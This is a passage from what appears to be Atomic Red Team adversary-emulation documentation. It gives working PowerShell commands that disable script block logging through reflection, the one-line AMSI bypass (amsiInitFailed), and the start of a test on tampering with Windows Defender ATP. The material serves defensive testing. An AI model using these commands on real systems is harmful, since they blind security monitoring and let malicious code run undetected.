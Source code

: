Credit to Matt Graeber (@mattifestation) for the research.

**Supported Platforms:** Windows

#### Attack Commands: Run with `powershell`!

```powershell
$GroupPolicySettingsField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static')
$GroupPolicySettings = $GroupPolicySettingsField.GetValue($null)
$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0
$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0
```

#### Cleanup Commands:

```powershell
$GroupPolicySettingsField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static')
$GroupPolicySettings = $GroupPolicySettingsField.GetValue($null)
$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockLogging'] = 1
$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 1
```

<br/>
<br/>

## Atomic Test #15 - PowerShell Bypass of AntiMalware Scripting Interface

An adversary may bypass Windows Defender AMSI to execute malicious PowerShell code.

Credit to Matt Graeber (@mattifestation) for the research.

**Supported Platforms:** Windows

#### Attack Commands: Run with `powershell`!

```powershell
[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

<br/>
<br/>

## Atomic Test #16 - Tamper with Windows Defender ATP PowerShell

Attempting to disable scheduled scanning and other parts of windows defender atp. Upon execution Virus and Threat
Protection will show as disabled
in Windows settings.

**Supported Platforms:** Windows

#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin)
